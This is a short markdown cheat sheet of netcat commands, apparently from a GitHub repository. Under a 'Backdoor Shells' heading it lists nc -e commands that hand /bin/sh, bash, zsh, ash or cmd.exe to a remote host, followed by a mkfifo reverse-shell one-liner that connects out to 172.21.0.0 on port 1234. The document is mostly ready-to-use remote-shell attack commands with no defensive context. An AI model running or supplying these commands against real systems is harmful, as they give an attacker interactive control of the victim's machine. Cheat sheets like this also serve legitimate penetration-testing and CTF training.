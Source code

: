 Netcat Tips

## Fundamentals:

Connect to a netcat client:
- rlwrap nc [IP Address] [port]

Connect to a netcat Listener:

- rlwrap nc -lvp [Localport]

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- rlwrap nc [Your IP Address] -e /bin/sh 
- rlwrap nc [Your IP Address] -e /bin/bash
- rlwrap nc [Your IP Address] -e /bin/zsh
- rlwrap nc [Your IP Address] -e /bin/ash


Windows: 

- rlwrap nc -lv [localport] -e cmd.exe

Linux netcat reverse shell: 

- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f